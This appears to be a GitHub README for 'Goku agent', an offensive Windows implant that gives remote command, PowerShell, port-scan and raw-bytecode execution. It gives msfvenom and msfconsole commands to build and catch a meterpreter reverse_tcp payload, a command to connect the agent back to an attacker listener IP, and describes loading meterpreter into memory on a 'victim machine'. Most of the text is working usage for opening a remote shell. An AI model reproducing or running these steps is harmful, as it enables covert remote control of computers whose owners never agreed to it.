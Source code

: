 ## Goku agent

Allows to spawn a reverse shell without using cmd.exe permanently.

the cmd.exe is launch only if you make a request to the agent. The request is then launched into a dedicated thread of the process.

There are several commands that you can use:

* CMD your command
* PSH your command
* SCAN tcp ip port1 port2 port3
* ASM bytecode
* PIPES_LS

That way you can launch a meterpreter directly into memory.

On your linux machine:
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=192.168.0.46 LPORT=4443 -f hex
$ sudo msfconsole
msf5> use windows/x64/shell_reverse_tcp
msf5> to_handler
```

On your windows machine:
```
$ .\goku_tcp -u 192.168.0.46 -p 4444
```

Then you can use the asm command to spawn a meterpreter on the victim machine.
